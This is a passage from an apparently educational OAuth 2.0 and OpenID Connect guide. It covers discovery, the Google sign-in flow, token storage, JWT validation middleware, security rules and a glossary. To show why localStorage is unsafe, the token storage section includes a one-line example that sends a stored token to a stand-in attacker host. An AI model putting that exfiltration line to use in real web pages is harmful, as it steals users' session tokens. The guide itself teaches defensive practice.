// Fetch ONCE at app startup — never hardcode endpoints
const discovery = await fetch(
  'https://auth.example.com/.well-known/openid-configuration'
).then(r => r.json());

// Now you have everything:
discovery.authorization_endpoint  // where to send login requests
discovery.token_endpoint          // where to exchange codes for tokens
discovery.userinfo_endpoint        // where to get user profile
discovery.jwks_uri                // where to get public keys
discovery.revocation_endpoint     // where to revoke tokens
```

### 💡 OIDC Hybrid flow — when you see response_type=code id_token

```
Standard:  response_type=code          → Auth Code flow (use this for new builds)
Hybrid:    response_type=code id_token → Gets id_token immediately in the front
                                          channel AND auth code for back-channel exchange

Why Hybrid exists:
  Some older enterprise RPs needed the id_token BEFORE the back-channel exchange
  to show the user their name immediately on the consent screen.

When you'll encounter it:
  Legacy enterprise OIDC integrations (pre-2018)
  Certain Microsoft Azure AD configurations

Security note:
  id_token in the front channel means it's in the URL → in browser history
  The c_hash claim in the id_token binds it to the auth code (validate this)
  For new builds: always use plain response_type=code
```

### 📖 Real-world: "Sign in with Google" — completely dissected

```
What you see: A button. You click it. Google's login page appears.
              You log in. You're back in the app, logged in.

What actually happened (the 9-step reality):

Step 1:  App generates PKCE pair + state + nonce. Stores them in sessionStorage.

Step 2:  Browser redirects to:
         https://accounts.google.com/o/oauth2/v2/auth
           ?response_type=code
           &client_id=YOUR_CLIENT_ID.apps.googleusercontent.com
           &redirect_uri=https://yourapp.com/callback
           &scope=openid email profile
           &state=RANDOM_STATE
           &nonce=RANDOM_NONCE
           &code_challenge=S256_HASH
           &code_challenge_method=S256

Step 3:  Google shows consent: "This app wants to see your name and email"
Step 4:  You approve. Google redirects to /callback?code=4/0AX4XfWi...&state=...
Step 5:  App verifies state matches stored value. (CSRF check.)
Step 6:  App server calls Google's /token endpoint with code + verifier
Step 7:  Google returns: access_token + id_token + refresh_token
Step 8:  App validates id_token: iss=accounts.google.com ✓, aud=YOUR_CLIENT_ID ✓,
         nonce matches stored nonce ✓
Step 9:  App reads sub from id_token: "110248495921238986420"
         Stores in DB: { google_id: "accounts.google.com|110248495921238986420" }
         Creates session cookie → you're logged in

IMPORTANT: access_token is used for Google APIs (Calendar, Drive etc.)
           id_token is used only to identify you in the app
           refresh_token lets the app silently renew your access
```

---

## Module 7 — Production security {#module-7}

### 💡 Token storage — the decision you get wrong the most

```
                      XSS     CSRF   Survives  Recommendation
                      Risk    Risk   Refresh
────────────────────────────────────────────────────────────────
JS memory variable    Low     None   ❌        ✅ access_token here
localStorage          HIGH    None   ✅        ❌ NEVER for tokens
sessionStorage        HIGH    None   ❌        ⚠️ PKCE state only
httpOnly cookie       None    Medium ✅        ✅ refresh_token here
Server session (BFF)  None    None   ✅        ✅ Best for SPAs
```

```
WHY localStorage IS DANGEROUS — one line of JavaScript does this:
  fetch('https://attacker.com/?t=' + localStorage.getItem('token'))

WHY httpOnly cookie IS SAFER:
  document.cookie  →  only shows non-httpOnly cookies
  The token cookie is invisible to JavaScript completely
```

### 💡 The BFF pattern — the right architecture for browser apps



The browser JS never touches a token. XSS attacks cannot steal what the browser doesn't have.

### 💡 Complete validation checklist for your API

```javascript
import { createRemoteJWKSet, jwtVerify } from 'jose';

// Setup once at startup (not per-request)
const JWKS = createRemoteJWKSet(
  new URL('https://auth.example.com/.well-known/jwks.json'),
  { cacheMaxAge: 600_000 } // 10 min cache
);

export async function requireAuth(req, res, next) {
  const header = req.headers.authorization;
  if (!header?.startsWith('Bearer ')) {
    return res.status(401).json({ error: 'missing_token' });
  }

  try {
    const { payload } = await jwtVerify(header.slice(7), JWKS, {
      issuer:     process.env.AUTH_ISSUER,   // validates iss
      audience:   process.env.API_AUDIENCE,  // validates aud
      algorithms: ['RS256', 'ES256'],         // blocks alg:none attack
      // exp is always checked automatically
    });

    // Check scope manually
    if (!payload.scope?.split(' ').includes('api.read')) {
      return res.status(403).json({ error: 'insufficient_scope' });
    }

    req.user = payload;  // { sub, email, roles, ... }
    next();
  } catch (err) {
    return res.status(401).json({ error: 'invalid_token', detail: err.message });
  }
}
```

### 🔐 Security rules — the non-negotiables

```
1.  PKCE for all Authorization Code flows (no exceptions)
2.  Validate state on every callback (CSRF prevention)
3.  Never put tokens in localStorage
4.  Never put tokens in URL query strings
5.  Never send the id_token to an API
6.  Never use email as user identifier — use iss+sub
7.  Always set explicit algorithm allowlist (no alg:none)
8.  Always validate BOTH iss AND aud claims
9.  Enable refresh token rotation
10. Secrets in a secrets manager — never in code
11. Check email_verified before trusting email claim
12. Revoke refresh token on logout
```

### 💡 OAuth 2.1 — what is changing

```
REMOVED:   Implicit grant          → Use Authorization Code + PKCE
REMOVED:   ROPC grant              → Use Authorization Code + PKCE
MANDATORY: PKCE for ALL flows (public AND confidential clients)
MANDATORY: Refresh token rotation
MANDATORY: Exact redirect URI string matching (no wildcards)
BANNED:    Tokens in URL query strings
```

---

## Module 8 — Architecture patterns {#module-8}

### 💡 2-Legged vs 3-Legged OAuth

```
2-LEGGED (Client Credentials):          3-LEGGED (Authorization Code):
  Parties: Client + Auth Server           Parties: User + Client + Auth Server
  "My assistant goes to get a             "I go, approve, and they give my
   wristband for me directly"              assistant the wristband"
  No user consent. No user session.       User logs in. User consents.
  sub = the service's client_id           sub = the user's actual ID
  Use: machine-to-machine                 Use: user-facing applications
```

### 💡 Delegated authorisation — the precise mental model

```
The three questions that define delegation:

  WHO delegates?      The Resource Owner (user)
  TO WHOM?            The Client (application)
  WHAT is delegated?  Specific scopes — not identity, not full access

The token carries the answer to all three:
  "client_id=myapp acted for sub=user_123 with scope=calendar.read"

Impersonation (anti-pattern):   App pretends TO BE the user
Delegation (correct pattern):   App acts ON BEHALF OF the user
                                 (the API knows it's an app, not the user)
```

### 💡 Token Relay — user context through microservices

```
The problem:
  Browser → API Gateway → Service A → Service B
  Service A has a user token (aud=service-a).
  It cannot forward it to Service B (aud mismatch → 401).

The solution (RFC 8693 Token Exchange):
  Service A calls Auth Server:
    POST /token
    grant_type=urn:ietf:params:oauth:grant-type:token-exchange
    subject_token=<user's token>
    audience=service-b

  Auth Server issues NEW token:
    { sub: user_123, aud: service-b, act: { sub: service-a } }
          ↑ original user    ↑ scoped to service-b   ↑ service-a is acting

  Full audit trail: user → gateway → service-a → service-b
```

### 💡 Front-channel vs Back-channel

```
FRONT CHANNEL (through browser URL/redirects):
  What goes here: auth_code, state, SAMLRequest
  What NEVER goes here: access_token, refresh_token, client_secret
  Why: browser history, referrer headers, server logs all capture URLs

BACK CHANNEL (direct server-to-server HTTPS):
  What goes here: everything sensitive — tokens, secrets, assertions
  Security: TLS encrypted, not logged by browser, not visible to JS
  Why it's safe: browser is just a relay for the auth code in Auth Code flow
```

---

## Quick Reference {#quick-reference}

### Which grant type to use?

```
Is a human user involved?
├── No  → Client Credentials (2-legged)
└── Yes
    ├── Has a browser? → Authorization Code + PKCE (3-legged)
    ├── Input-constrained device (TV/CLI)? → Device Code
    └── Building first-party login UI? → Auth Code + PKCE (never ROPC)
```

### JWT validation checklist

```
✅ Signature — RS256/ES256 with public key from JWKS
✅ alg — explicit allowlist (never permit alg:none)
✅ exp — not in the past
✅ iss — matches expected Auth Server URL
✅ aud — matches THIS API's identifier
✅ scope — contains the required permission for this endpoint
```

---

## Glossary {#glossary}

| Term | Full form | Plain English definition |
|---|---|---|
| **AS** | Authorization Server | The service that issues tokens (PingFed, Okta, Auth0) |
| **RS** | Resource Server | Your API — it validates tokens and serves data |
| **RP** | Relying Party | Another name for Client in OIDC context |
| **JWT** | JSON Web Token | A signed, self-contained token carrying user claims |
| **JWK** | JSON Web Key | A public key in JSON format |
| **JWKS** | JSON Web Key Set | A URL serving a collection of JWKs |
| **JTI** | JWT ID | Unique identifier for a specific JWT — used for replay prevention |
| **PKCE** | Proof Key for Code Exchange | A security extension replacing client_secret for public clients |
| **BFF** | Backend for Frontend | A server-side proxy that holds tokens so the browser never does |
| **ROPC** | Resource Owner Password Credentials | A deprecated grant where app collects user's password |
| **SPA** | Single Page Application | A browser app with no server-side rendering (React, Vue, Angular) |
| **CoT** | Circle of Trust | Set of entities with mutually established metadata trust |
| **OIDC** | OpenID Connect | Identity layer on top of OAuth 2.0 that adds user identity |
| **scope** | — | A string describing a specific permission (e.g. "calendar.read") |
| **sub** | Subject | The unique identifier of the user or service the token is about |
| **iss** | Issuer | The URL of the Auth Server that issued the token |
| **aud** | Audience | Who the token is intended for (the API's base URL) |
| **exp** | Expiry | Unix timestamp after which the token must be rejected |
| **iat** | Issued At | Unix timestamp when the token was created |
| **RS256** | RSA Signature SHA-256 | Asymmetric signing algorithm used in JWTs |
| **ES256** | ECDSA Signature SHA-256 | Faster alternative to RS256 with smaller keys |
| **HS256** | HMAC SHA-256 | Symmetric signing — avoid for APIs (shared secret) |
| **2-legged** | — | OAuth without a user — Client + Auth Server only |
| **3-legged** | — | OAuth with a user — Client + Auth Server + Resource Owner |
| **DPoP** | Demonstration of Proof-of-Possession | Binds a token to a specific client key — prevents token theft |
| **PAR** | Pushed Authorization Requests | Sends auth request server-side before browser redirect |

---

*OAuth 2.0: RFC 6749 · PKCE: RFC 7636 · Device Code: RFC 8628 · JWT: RFC 7519 · JWKS: RFC 7517 · Introspection: RFC 7662 · Revocation: RFC 7009 · Token Exchange: RFC 8693 · OIDC Core 1.0 · OAuth 2.1: draft-ietf-oauth-v2-1*
